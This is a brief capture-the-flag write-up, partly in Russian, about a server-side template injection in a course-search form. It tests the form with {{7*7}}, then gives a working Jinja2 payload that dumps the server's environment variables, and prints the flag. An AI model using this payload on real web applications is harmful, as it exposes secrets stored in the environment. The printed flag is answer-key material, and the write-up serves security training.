


```text
Description:
God, I'm so done with these vibe coders pulling in $500k a nanosecond... We just hired this intern who put together a course website for us. Not only does nothing actually work, but he's still insisting it's a masterpiece. I threw a SAST scanner at it and found a pretty juicy vuln. Go ahead and pop it—we'll have a good laugh about it later :)

Flag format: KubCTF{...}
```
# Уязвимость 
```text
SSTI в форме поиска названия курса
```
# Разведка и решение
На начальном экране мы видим форму поиска названия курса. Проверим на уязвимость SSTI форму с помощью ``{{7*7}}`` :

В результате на вывело 49 - SSTI есть. Теперь проверим env, флаг обычно лежит в нем. Для этого используем payload: 
```text
{{ config.__class__.__init__.__globals__['os'].environ }}
```
Вывод:

# Flag
```text
KubSTU{S46t_1s_C00l_09ae2c6f0003}
```